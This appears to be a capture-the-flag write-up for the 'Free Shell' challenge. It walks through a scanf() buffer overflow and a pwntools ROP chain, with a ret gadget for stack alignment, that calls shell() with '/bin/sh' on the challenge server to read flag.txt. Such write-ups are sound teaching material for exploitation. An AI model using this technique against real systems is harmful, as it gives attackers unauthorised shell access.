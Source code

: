 # Free Shell

## Problem Statement

Want a shell? Just give it a call! You'll need to provide the command though.

Interact with the service at: `chals.t.cyberthon24.ctf.sg:33041`

Concept(s) Required:

- [Buffer Overflow to overwrite RIP](https://guyinatuxedo.github.io/05-bof_callfunction/csaw18_getit/index.html)
- [Using Return Oriented Programming to pass x64 parameters](https://www.youtube.com/watch?v=abEOdicWhNo)

Note: once you get a shell, the flag.txt can be found in the user's home directory.

## Solution

Inspecting the source file,

```c
const char *BIN_SH = "/bin/sh\x00";

void shell(char **cmd)
{
    if (!strcmp(*cmd, BIN_SH))
    {
        system(*cmd);
    }
    else
    {
        puts("Try calling system(\"/bin/sh\").");
    }
}

int main()
{
    char input[64];

    ...
    
    scanf("%s", input);

    return 0;
}
```

The source code defines a `shell()` function that takes a command as an argument. If the provided command matches the
address of a string "/bin/sh", it gives us shell.

Since the `scanf()` function does not perform bounds checking, it is susceptible to buffer overflow. By providing input
longer than the buffer size, we can overwrite memory, including the return address on the stack, and the arguments of
functions.

So we want to construct a payload that includes padding to fill the buffer, the address of the `shell()` function, and
the
address of "/bin/sh" as the argument. This is known as Return Oriented Programming (ROP).

First we find the offset to start overriding the instruction the pointer, which will be the length of our padding. We
can use `pwntools` or `gdb`, but I will demonstrate using `pwntools` here.

```python
from pwn import *

elf = context.binary = ELF("./free_shell", checksec=False)

p = process()
p.sendlineafter(b'=> ', cyclic(100))
p.wait()

offset = cyclic_find(p.corefile.read(p.corefile.sp, 4))
log.success("IP Offset: {}".format(offset))
```

Now, we have to create a ROP chain that will execute the `shell()` function with the correct arguments. First, we need
to find the address of the global variable `*BIN_SH`, as that will be the argument we pass into `shell()`. We can do so
using GDB.

```shell
> gdb free_shell
...
> info variables
All defined variables:

Non-debugging symbols:
...
0x0000000000601010  BIN_SH
...
```

We find the value to be `0x601010`. Now, we use `pwntools` to create the ROP chain

```python
p = process()

rop = ROP(elf)
rop.call('shell', [0x601010])
payload = flat({offset: rop.chain()})
p.sendlineafter(b'=> ', payload)

p.interactive()
```

Hmm, we get a segmentation fault for some reason:

```
[*] Process 'free_shell' stopped with exit code -11 (SIGSEGV)
[*] Got EOF while sending in interactive
```

It turns out that it is an issue with stack alignment.
This excerpt from [https://ropemporium.com/guide.html](https://ropemporium.com/guide.html) explains the reason.

"If you're segfaulting on a movaps instruction in buffered_vfprintf() or do_system() in the x86_64 challenges, then
ensure the stack is 16-byte aligned before returning to GLIBC functions such as printf() or system(). Some versions of
GLIBC uses movaps instructions to move data onto the stack in certain functions. The 64 bit calling convention requires
the stack to be 16-byte aligned before a call instruction but this is easily violated during ROP chain execution,
causing all further calls from that function to be made with a misaligned stack. movaps triggers a general protection
fault when operating on unaligned data, so try padding your ROP chain with an extra ret before returning into a function
or return further into a function to skip a push instruction."

Basically, we just have to add an extra `ret` gadget. Our final code now looks like this:

```python
from pwn import *

elf = context.binary = ELF("./free_shell", checksec=False)

p = process()
p.sendlineafter(b'=> ', cyclic(100))
p.wait()

offset = cyclic_find(p.corefile.read(p.corefile.sp, 4))
log.success("IP Offset: {}".format(offset))

rop = ROP(elf)
ret_gadget = rop.find_gadget(['ret'])[0]
rop.call(ret_gadget)
rop.call('shell', [0x601010])
payload = flat({offset: rop.chain()})

r = remote("chals.t.cyberthon24.ctf.sg", 33041)
r.sendlineafter(b'=> ', payload)
r.sendline(b'cat ~/flag.txt')

r.interactive()
```